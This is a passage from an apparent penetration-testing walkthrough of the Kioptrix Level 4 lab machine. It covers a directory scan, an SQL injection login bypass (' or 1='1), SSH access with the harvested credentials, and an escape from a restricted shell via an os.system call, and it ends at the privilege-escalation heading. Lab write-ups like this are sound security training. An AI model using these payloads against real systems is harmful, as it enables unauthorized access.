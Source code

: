 ```bash
/server-status (Status: 403)
===============================================================
2019/09/03 23:54:25 Finished
===============================================================
```

#### Browser

Using the browser to enumerate webpage and discovering Member Login page.

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%204/Images/login.png?raw=true)

Low Privilege Exploitation
--------------------------

### SQL Injection
Using usernames discovered with enum4linux, password field can be injected with the following code: ```' or 1='1```

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%204/Images/sqlinjection.png?raw=true)

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%204/Images/sqlinjection1.png?raw=true)

### SSH

With credentials obtained from Member’s Control Panel, SSH can be used to get low privilege shell to the system.
```bash
ssh robert@192.168.211.129

robert@192.168.211.129's password:

Welcome to LigGoat Security Systems - We are Watching

== Welcome LigGoat Employee ==

LigGoat Shell is in place so you don't screw up

Type '?' or 'help' to get the list of allowed commands

robert:\~\$ ?

cd clear echo exit help ll lpath ls
```
#### Escaping the Shell

As the low privilige shell is very restrictive echo command can be used to obtain a non-restrictive shell.
```bash
robert:\~\$ echo os.system('/bin/bash')
```
Privilege Escalation Enumeration
--------------------------------
